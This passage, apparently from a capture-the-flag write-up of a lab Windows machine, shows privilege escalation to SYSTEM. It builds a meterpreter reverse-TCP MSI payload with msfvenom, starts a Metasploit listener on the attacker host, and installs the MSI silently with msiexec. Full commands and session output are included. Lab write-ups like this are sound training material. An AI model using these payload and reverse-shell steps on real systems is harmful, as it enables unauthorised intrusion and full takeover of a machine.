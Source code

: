 Following to that I generate the `msfvenom` payload using the following command and started the meterpreter listener.
```
# msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=4321 -e x64/shikata_ga_nai -f msi -o payload.msi
[-] Skipping invalid encoder x64/shikata_ga_nai
[!] Couldn't find encoder to use
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of msi file: 159744 bytes
Saved as: payload.msi

# msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST 10.10.14.4;set LPORT 4321;exploit;"   
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
LHOST => 10.10.14.4
LPORT => 4321
[*] Started reverse TCP handler on 10.10.14.4:4321

```

Running the Following command with the User Privilege Shell, I got the Meterpreter Session with a SYSTEM Shell.
```
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System>msiexec /quiet /qn /i payload.msi
msiexec /quiet /qn /i payload.msi

```

On the Meterpreter Side,
```
[*] Sending stage (201798 bytes) to 10.10.10.239
[*] Meterpreter session 1 opened (10.10.14.4:4321 -> 10.10.10.239:57796) at 2024-08-30 00:57:50 -0400

meterpreter > shell
Process 5560 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

```

Get Your Root Flag